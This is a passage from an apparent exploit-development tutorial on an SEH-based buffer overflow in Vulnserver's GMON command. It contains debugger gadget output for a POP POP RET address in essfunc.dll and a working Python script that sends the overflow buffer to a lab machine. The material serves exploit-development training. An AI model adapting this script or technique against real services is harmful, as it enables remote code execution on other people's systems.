 Important here is that SafeSEH should preferably be `False` and the address should not contain any of our found bad chars.

The first address in the list fits these requirements:

```bash
0x625010b4 : 

  pop ebx 
  pop ebp 
  ret  

|  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
```

Let us test if it works:

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 4 - POP POP RET
import socket
import struct

offset = 3553 - 4
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a

badchars = [ 0x00, 0x0a ] # found badchars

ppr_address = 0x625010b4    # address of POP POP RET gadget
ppr_gadget = struct.pack("<I", ppr_address)

buf = b""
buf += b"GMON /."
buf += b"A" * offset

buf += b"B" * 4          # NSEH: this will get executed as instructions
buf += ppr_gadget        # SEH address -> POP POP RET

buf += b"D" * (size - offset - 8)
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

